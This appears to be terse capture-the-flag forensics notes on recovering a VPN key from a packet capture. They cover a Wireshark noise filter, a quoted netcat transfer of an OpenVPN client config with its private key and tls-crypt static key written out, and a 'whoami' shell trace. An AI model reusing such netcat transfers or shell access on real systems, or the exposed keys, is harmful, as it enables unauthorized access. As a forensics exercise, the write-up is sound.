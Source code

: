 ### Find VPN key in this packet capture:

[Packet Capture Download](https://drive.google.com/file/d/1LjIdKsVDKCT3sKPIztBbnslLLIrfZGL4/view)

What vpn protocol has a key exhcange

vpn IKE?

isakmp
din't work out so well

started looking at all the noise and noticed 107.172.29.202 was ping sweeping and creating too many packets to wade through.



Tried to filter out noise.
 applied this filter

       ip.dst != 107.172.29.202 && ip.src !=107.172.29.202 && ip.addr != 204.11.56.48 && !icmp

### NetCat Stream

nc -nv 10.8.0.2 8888
file: comp.ovpn

client
proto tcp
                    
remote 198.12.71.251 443  
dev tun
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
verify-x509-name server_GYnO1H974rtzuMEp name
auth SHA256
auth-nocache
cipher AES-128-GCM
tls-client
tls-version-min 1.2
tls-cipher TLS-ECDHE-ECDSA-WITH-AES-128-GCM-SHA256
ignore-unknown-option block-outside-dns
setenv opt block-outside-dns # Prevent Windows 10 DNS leak
verb 3
<ca>
-----BEGIN CERTIFICATE-----
MIIB1zCCAX2gAwIBAgIUakrFUEvYZlgIXTjvEzxcfIMva3cwCgYIKoZIzj0EAwIw
HjEcMBoGA1UEAwwTY25fZXk2em9nWm9WcXRFMmMxQzAeFw0yMzAzMjAwNDU4MDRa
Fw0zMzAzMTcwNDU4MDRaMB4xHDAaBgNVBAMME2NuX2V5NnpvZ1pvVnF0RTJjMUMw
WTATBgcqhkjOPQIBBggqhkjOPQMBBwNCAAQU0lxDnn9OeHCbPpbclRjreeu5XFic
gZ4VdXhqZdS5ddT1rYA+O+1upFjxqWgpa9FF1eY9xNxy8uUTiwuSd0gRo4GYMIGV
MB0GA1UdDgQWBBRAiM5/p35bdCsEa0QtU//cN7GiRTBZBgNVHSMEUjBQgBRAiM5/
p35bdCsEa0QtU//cN7GiRaEipCAwHjEcMBoGA1UEAwwTY25fZXk2em9nWm9WcXRF
MmMxQ4IUakrFUEvYZlgIXTjvEzxcfIMva3cwDAYDVR0TBAUwAwEB/zALBgNVHQ8E
BAMCAQYwCgYIKoZIzj0EAwIDSAAwRQIhAOOn9Rjzb0XcqtH5WfDqth9KRyVIwxvo
zVtXzDU6twJWAiBHOF4EB5RWoeAGI6Jw/+hDfdu/iXQLRdEOgHTXpoOH2Q==
-----END CERTIFICATE-----
</ca>
<cert>
-----BEGIN CERTIFICATE-----
MIIB1jCCAXygAwIBAgIQCk74lRL1yQDajAmX9+eBxTAKBggqhkjOPQQDAjAeMRww
GgYDVQQDDBNjbl9leTZ6b2dab1ZxdEUyYzFDMB4XDTIzMDMyMDA0NTgxNFoXDTI1
MDYyMjA0NTgxNFowDzENMAsGA1UEAwwEY29tcDBZMBMGByqGSM49AgEGCCqGSM49
AwEHA0IABE4x+pkqugsDh9C1yeqh72OdeZFybhJfXJAl8SkAJ1HMPXH3am9eBiOv
bdMQofnvgUu9JkqTPBS+elyZHhhcgRyjgaowgacwCQYDVR0TBAIwADAdBgNVHQ4E
FgQUYMFkHaFY5NyZPTo++/PIvTLKlWQwWQYDVR0jBFIwUIAUQIjOf6d+W3QrBGtE
LVP/3DexokWhIqQgMB4xHDAaBgNVBAMME2NuX2V5NnpvZ1pvVnF0RTJjMUOCFGpK
xVBL2GZYCF047xM8XHyDL2t3MBMGA1UdJQQMMAoGCCsGAQUFBwMCMAsGA1UdDwQE
AwIHgDAKBggqhkjOPQQDAgNIADBFAiEA4WBbt/OqLyh5x77uZxo/JtZ0/3tmrciV
XaMmxRpSA0UCIE/rnSweh/8TGHtFLFtxnwJew2146N0+7+flgphTDBw8
-----END CERTIFICATE-----
</cert>
<key>
-----BEGIN PRIVATE KEY-----
MIGHAgEAMBMGByqGSM49AgEGCCqGSM49AwEHBG0wawIBAQQgPrjkMvXCFte61hsj
V0cVtUUuSByFffxqqLV8rRgLWMmhRANCAAROMfqZKroLA4fQtcnqoe9jnXmRcm4S
X1yQJfEpACdRzD1x92pvXgYjr23TEKH574FLvSZKkzwUvnpcmR4YXIEc
-----END PRIVATE KEY-----
</key>
<tls-crypt>

 2048 bit OpenVPN static key

-----BEGIN OpenVPN Static key V1-----
e63d2f5a0049779fba6d2faacd0a4d4a
bca313bb2e084dbd4c87f4e7e3c1a355
c2d22a996256a73d339b57b64234eaa0
6e82ef6639e4c4dda8995cff5f8e916e
7d3af53d04148d8cee52a376a25a5feb
63d9ac088c2602df526510024350e96e
ee492a314f1cf8e4b524a95171a8c15b
ac896d5d61416b3266bac9d62d27105b
9e94655da4870996e7147a058fce8bbf
e07b2eeaef0691d7fc28df3e4f78f58d
d757d29cd8a156b15b2af678b6b9dff3
0f8d63e829a0c98de46ac915d754ee8c
3e47799f4850537184e4ba3a70b5110b
4f674dd2a7255c61a8aeedcd1015fbad
a030a0ce072f696c93e03f3dfeebddcc
db59dc7a33fe0d23889857cf4c121dc9
-----END OpenVPN Static key V1-----
</tls-crypt>


EOF

whoami
www-data